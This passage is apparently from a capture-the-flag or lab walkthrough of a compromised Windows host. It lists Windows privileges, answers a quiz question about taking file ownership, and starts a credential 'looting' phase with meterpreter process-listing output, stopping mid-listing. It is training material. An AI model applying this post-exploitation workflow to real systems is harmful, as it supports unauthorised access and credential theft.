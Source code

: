 ```console
SeSecurityPrivilege
SeShutdownPrivilege
SeSystemEnvironmentPrivilege
SeSystemProfilePrivilege
SeSystemtimePrivilege
SeTakeOwnershipPrivilege
SeTimeZonePrivilege
SeUndockPrivilege
```

Looking through this list of permissions gives us the answer to the next question:

> What permission listed allows us to take ownership of files?\
> > SeTakeOwnershipPrivilege

## Looting

For those wondering, this phase usually involves _looting_ credentials and hashes for later or current use. 

As instructed, we'll first have a peek at the processes using `ps`:

```console
meterpreter > ps

Process List
============

 PID   PPID  Name             Arch  Session  User                        Path
 ---   ----  ----             ----  -------  ----                        ----
 0     0     [System Process]
 4     0     System           x64   0
 100   692   svchost.exe      x64   0        NT AUTHORITY\SYSTEM         C:\Windows\System32\svchos
                                                                         t.exe
 416   4     smss.exe         x64   0        NT AUTHORITY\SYSTEM         C:\Windows\System32\smss.e
                                                                         xe
 508   692   svchost.exe      x64   0        NT AUTHORITY\SYSTEM         C:\Windows\System32\svchos
                                                                         t.exe
 544   536   csrss.exe        x64   0        NT AUTHORITY\SYSTEM         C:\Windows\System32\csrss.
                                                                         exe
 592   536   wininit.exe      x64   0        NT AUTHORITY\SYSTEM         C:\Windows\System32\winini
                                                                         t.exe
 600   692   vds.exe          x64   0        NT AUTHORITY\SYSTEM         C:\Windows\System32\vds.ex
                                                                         e
 604   584   csrss.exe        x64   1        NT AUTHORITY\SYSTEM         C:\Windows\System32\csrss.
                                                                         exe
 652   584   winlogon.exe     x64   1        NT AUTHORITY\SYSTEM         C:\Windows\System32\winlog
                                                                         on.exe
 692   592   services.exe     x64   0        NT AUTHORITY\SYSTEM         C:\Windows\System32\servic
                                                                         es.exe
 700   592   lsass.exe        x64   0        NT AUTHORITY\SYSTEM         C:\Windows\System32\lsass.
                                                                         exe
 708   592   lsm.exe          x64   0        NT AUTHORITY\SYSTEM         C:\Windows\System32\lsm.ex
                                                                         e
 820   692   svchost.exe      x64   0        NT AUTHORITY\SYSTEM         C:\Windows\System32\svchos
                                                                         t.exe
             ...
 1376  692   spoolsv.exe      x64   0        NT AUTHORITY\SYSTEM         C:\Windows\System32\spools
                                                                         v.exe
             ...
 1572  692   amazon-ssm-agen  x64   0        NT AUTHORITY\SYSTEM         C:\Program Files\Amazon\SS
             t.exe                                                       M\amazon-ssm-agent.exe
 1588  692   TrustedInstalle  x64   0        NT AUTHORITY\SYSTEM         C:\Windows\servicing\Trust
             r.exe                                                       edInstaller.exe
 1656  692   LiteAgent.exe    x64   0        NT AUTHORITY\SYSTEM         C:\Program Files\Amazon\Xe
```